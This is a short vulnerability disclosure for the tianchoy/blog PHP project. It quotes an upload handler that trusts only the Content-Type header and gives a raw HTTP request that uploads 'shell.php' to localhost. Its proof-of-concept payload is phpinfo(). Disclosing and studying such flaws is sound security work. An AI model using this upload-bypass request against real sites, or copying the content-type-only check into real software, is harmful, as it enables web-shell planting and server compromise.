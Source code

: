 ## powered by sebao from 404team ##

tianchoy/blog allows remote attackers to unauthentication of administrators for requests that upload PHP files. 


## Vulnerability link ##

https://github.com/tianchoy/blog

## Vulnerability details ##

in upload.php Line 11

	  switch($type){
	  case 'image/pjpeg': $ok=1;
	       break;
	case'image/png' : $ok=1;
	   break;
	case 'image/gif' :$ok=1;
	   break;
	case 'image/jpeg' :$ok=1;
	   break; 
	 } 
	 if($ok && $error=='0'){
	  move_uploaded_file($tmp_name,'images/'.$name);  
	   echo "ok";
	} else{
	 echo "fail!";      //非图片格式，给出提示
	      }
	 }
	}

this code only check the file content-type. if attackers set content-type to image/jpeg can upload any file.for example php file

exploit:



	POST /upload.php HTTP/1.1
	Host: loclahost
	User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:55.0) Gecko/20100101 Firefox/55.0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
	Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
	Accept-Encoding: gzip, deflate
	Content-Type: multipart/form-data; boundary=---------------------------140872878228742
	Content-Length: 208
	Connection: close
	Upgrade-Insecure-Requests: 1
	
	-----------------------------140872878228742
	Content-Disposition: form-data; name="upfile"; filename="shell.php"
	Content-Type: application/octet-stream
	
	<?php phpinfo();?>
	-----------------------------140872878228742--

then the shell url is `http://localhost/images/shell.php`